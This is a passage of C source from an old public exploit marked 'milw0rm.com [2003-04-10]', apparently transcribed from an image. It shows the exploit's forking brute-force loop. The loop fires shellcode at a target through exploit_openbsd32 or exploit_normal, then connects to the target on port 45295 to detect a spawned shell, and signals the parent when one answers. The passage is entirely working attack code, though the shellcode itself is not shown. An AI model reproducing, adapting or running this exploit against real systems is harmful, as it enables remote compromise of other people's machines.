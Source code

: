                                             if (brute == 3) {
                                                    if (exploit_openbsd32(sock, ret, shellcode) < 0) {
                                                            if (verbose == 1) fprintf(stderr, "+ Failed.\n");
                                                            if (sock  > 2) close(sock);
                                                            if (sock2 > 2) close(sock2);
                                                            exit(-1);
                                                    }
                                            }
                                    else {
                                            if (exploit_normal(sock, ret, shellcode) < 0) {
                                                    if (verbose == 1) fprintf(stderr, "+ Failed.\n");
                                                    if (sock  > 2) close(sock);
                                                    if (sock2 > 2) close(sock2);
                                                    exit(-1);
                                            }

                                            if (sock > 2) close(sock);

                                            if ((sock2 = socket(AF_INET, SOCK_STREAM, 6)) < 0) {
                                                    if (sock2 > 2) close(sock2);
                                                    exit(-1);
                                            }

                                            if(Connect(sock2, (char *)inet_ntoa(addr1.sin_addr), 45295, 2) != -1) {
                                                    if (sock2  > 2) close(sock2);
                                                    kill(getppid(), SIGUSR1);
                                            }

                                            exit(1);
                                    }


                                    exit(0);
                                    break;
                            case -1:
                                    fprintf(stderr, "+ fork() error\n");
                                    exit(-1);
                                    break;
                            default:
                                    if (i > MAX_CHILDS - 2) {
                                            wait(&status);
                                            i--;
                                    }
                                    break;
                            }

                    }

            }

            return 0;
    }

    // milw0rm.com [2003-04-10]
